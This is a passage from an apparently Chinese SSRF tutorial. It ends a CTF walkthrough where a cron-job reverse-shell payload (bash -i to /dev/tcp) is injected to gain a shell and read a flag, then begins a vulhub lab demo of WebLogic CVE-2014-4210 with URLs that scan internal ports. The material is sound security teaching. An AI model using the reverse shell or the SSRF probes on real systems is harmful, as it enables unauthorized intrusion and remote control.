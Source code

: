 其中$61为我的vps地址，也就是```%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a```的字符串长度。执行后稍等片刻就可以收到反弹的shell了。同时需要写入的命令前后要加几个回车。

![1560323581419](https://misakikata.github.io/2019/06/SSRF/1560323581419.png)

根据前文的提示，打开/passwd文件就可以找到flag了。

![1560323642659](https://misakikata.github.io/2019/06/SSRF/1560323642659.png)



在网站页面上输入这一串字符，就可以结束这场SSRF之旅了。

![1560325344529](https://misakikata.github.io/2019/06/SSRF/1560325344529.png)

# 5. CMS实战演示

## 5.1 漏洞环境
vulhub、weblogic、ssrf

## 5.2 漏洞介绍
CVE-2014-4210，weblogic的uddiexplorer.war存在安全组件漏洞，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性。该漏洞的影响版本包括：10.0.2.0, 10.3.6.0

## 5.3 下载地址
<https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf>

下载vulhub后，进入对应的安装目录，执行```docker-compose up -d```,会自动创建docker镜像。

构建完成后访问如下地址：

```
/uddiexplorer/SearchPublicRegistries.jsp
```

![1560402971016](https://misakikata.github.io/2019/06/SSRF/1560402971016.png)

访问如下地址时返回，代表端口未开放：

```
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:80
```

![1560403060035](https://misakikata.github.io/2019/06/SSRF/1560403060035.png)

```
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7001
```

响应可以看到返回404，证明端口开放：

![1560403107077](https://misakikata.github.io/2019/06/SSRF/1560403107077.png)
